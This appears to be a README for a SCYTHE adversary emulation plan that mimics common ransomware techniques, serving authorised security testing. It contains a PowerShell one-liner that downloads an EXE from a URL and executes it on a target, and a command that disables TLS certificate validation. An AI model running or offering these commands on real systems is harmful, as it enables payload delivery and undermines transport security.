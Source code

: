 # Ransomware Top 10 TTPs Adversary Emulation Plan

This adversary emulation plan was created for a customer that asked "what are the top 10 TTPs used by Ransomware" and goes with this blog: https://www.scythe.io/library/threat-thursday-top-ransomware-ttps

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Ransomware/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Ransomware
4. Create a new campaign over HTTPS port tcp/443
5. Import from Existing Threat: Ransomware_Top_10
6. Launch Campaign
7. Click More Actions and copy the URL for the EXE. 
8. In the target system, run this PowerShell command with the respective URL to download and execute the payload: ```$myscriptblock={$url="URL of EXE";$wc=New-Object System.Net.WebClient;$output="C:\Users\Public\scythe_payload.exe";$wc.DownloadFile($url,$output);C:\Users\Public\scythe_payload.exe};Invoke-Command -ScriptBlock $myscriptblock;```

If you get a TLS certificate validation error, you can bypass with this PowerShell command:
```[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}```
